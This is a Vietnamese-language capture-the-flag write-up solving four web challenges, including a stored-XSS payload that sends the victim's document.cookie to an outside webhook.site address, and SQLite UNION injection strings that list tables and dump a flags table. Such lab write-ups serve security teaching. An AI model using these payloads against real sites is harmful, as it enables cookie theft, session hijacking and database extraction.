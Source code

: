 # spinner

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/0e0eb1e5-1fa5-45df-bd7a-bd535a4cd3fc)

Bài này chỉ cần dẫn đến path `/falg` và đổi thành method `POST` là lấy được flag

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/44da92a9-8316-4f94-83fd-d91b852744f2)

Flag:`actf{b152d497db04fcb1fdf6f3bb64522d5e}`

# markdown

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/0a81a692-5dab-408c-bd1e-a27158ceb24e)

Bài này nó cho 1 bot web để auto submit, mục đích giả định nạn nhân bị lộ cookie:

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/12531d93-41eb-4537-83e2-d77a74179b75)

Từ đó cũng có thể đoán được nó bị Stored-XSS, có payload và send bằng `Burp` để lấy link:

`<img src=x onerror=this.src="https://webhook.site/08fe0aa2-3b08-4004-ae48-4e52c8945b7d/?c="+document.cookie>`

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/cac62bf8-a091-4ece-b7bc-f2c0e0c9d2ce)

Bên `webhook` sẽ bắt được request đến:

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/5941b061-2721-4f3e-a51d-06a76c2ca1c3)

Flag:`actf{b534186fa8b28780b1fcd1e95e2a2e2c}`

# winds

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/37163238-9513-4298-9bcc-2a081953b976)

Bài này khi đọc src code cần chú ý đoạn `random`. Tuy random nhưng các chuỗi sẽ đều ra cùng 1 kết quả

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/14ab4fb1-ce97-4626-b953-783c11d36f5e)

Do đó 

```
import random


text1="{{ 7*7 }}"

text=[i for i in range(len(text1))]
random.seed(0)
jumbled = list(text)
random.shuffle(jumbled)
# jumbled = ''.join(jumbled)
print(jumbled)

newl=[0]*len(text1)
for i in range(len(text1)):
    newl[jumbled[i]]=text1[i]
print(''.join(newl))

random.seed(0)
jumbled = list(newl)
random.shuffle(jumbled)
# jumbled = ''.join(jumbled)
print(''.join(jumbled))
```

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/8f09462c-1a15-4746-961c-ccfac95674d3)

Flag: `actf{2cb542c944f737b85c6bb9183b7f2ea8}`

# store 

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/9f1894b5-5dd7-4e77-9af3-ae2e36032adc)

Thử inject để tìm số cột (3):

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/21cf2571-72ae-45e1-97da-ae5a3a30d16a)

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/eedd62a4-d9fa-42f3-b8a8-c31a2510c845)

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/9920cc08-ce59-4618-9b33-d07eb239e4f8)

Kiểm tra cheatsheet không được nên thử tiếp sqlite:

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/f717b474-c183-4177-972c-d48d1cb651a0)

Từ đây tìm sqlite inject trên [exploitdb](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)

`' UNION SELECT 'A','A',tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --`

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/704e6bc5-2237-4a68-a44b-659db56043d5)

`'union SELECT 'A','A',sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='flags5d57d44fb60f978d0f11d54183052b8a'
--`

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/70e4c217-179c-4f07-b29a-b18665257708)

`'union SELECT 'A','A',flag FROM 'flags5d57d44fb60f978d0f11d54183052b8a'
--`

![image](https://github.com/vanniichan/CTF-WriteUp/assets/112863484/8b470886-0539-4182-9ebc-ce582793ebbf)

Flag: `actf{37619bbd0b81c257b70013fa1572f4ed}`
